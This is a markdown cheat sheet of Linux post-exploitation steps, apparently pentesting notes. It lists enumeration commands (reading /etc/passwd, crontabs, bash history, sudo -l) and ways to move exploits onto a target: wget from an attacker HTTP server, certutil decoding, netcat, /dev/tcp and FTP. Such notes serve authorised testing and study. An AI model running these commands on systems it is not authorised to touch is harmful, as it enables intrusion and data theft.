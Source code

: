 # Linux Post Exploitation

## Commands to Run on Connecting
````bash
ls -latr / 
ls -latr /tmp 
ls -latr . 
ls -latr .. 
ls -latr /root 
ps -elf 
ifconfig 
netstat -auntp 
w 
ls -latr /var/spool/cron 
tail -n 1000 #files in /var/spool/cron/ 
date; date -u 
uname -a 
df 
ls -latr /var/*acc* 
ls -latr /var/*log*/ 
ls -latr /var/log/* 
cat out relevant files #grep for your logged in user account 
ls -la /etc/*syslog* read all the config files 
for user in $(cut -f1 -d: /etc/passwd); do echo "###### $user crontab is:"; cat /var/spool/cron/{crontabs/$user,$user} 2>/dev/null; done 
cat /etc/crontab 
ls -la /etc/cron.* 
#As needed, examine the files/scripts shown in the directory listing of the cron.* directories 
find / \( -path /proc -prune -o -path /sys -prune \) -o -mmin -{duration since initial connection} -type f -print0 | xargs -0 ls -latr #NOTE there is a "-" a.k.a minus symbol preceding the "<duration since initial connection"> 
sestatus OR getenforce 
cat /root/.bash_history 
cat ~/.bash_history
history
sudo -l
````

## File Transfers
https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65 

**Python** 

1. To transfer exploits. On the attack machine run the following in the folder that has the exploit: 

`python -m SimpleHTTPServer `

-or- 

`python3 -m http.server 8081 ([Optional: port]) `

2. On the target machine I pull the file with: 

`wget [attack box ip] :8000/[filename] `

**Linux -> Windows (Base 64)**
***

1.  Copy contents 

`base64 [file] | xclip -selection -clipboard` 

2. On Windows: open notepad, paste and save as txt on desktop 

3. On Windows terminal, cd to desktop run: 

`certutil -decode [file].txt [file].exe` 

**Netcat**
*** 

1. On target host:  

`nc -lvp 8080 > /root/Desktop/transfer.txt` 

2. On attack box:  

`nc [target ip] 8080 < /root/Desktop/transfer.txt`

**File Transfer With /dev/tcp**
***

- Once you send with /dev/tcp it doesn’t wait for any more data. This method is useful for host that does not have NETCAT available. 

1. On target host:  

`nc -lp 1111 > file.txt` 

2. On attack box:  

`cat file.txt > /dev/tcp/10.2.0.2/1111` 

**FTP**
***
1. Host the files from your attacker machine: `python -m pyftpdlib 21`
2. Connect to ftp from the target machine: `ftp {attacker IP}`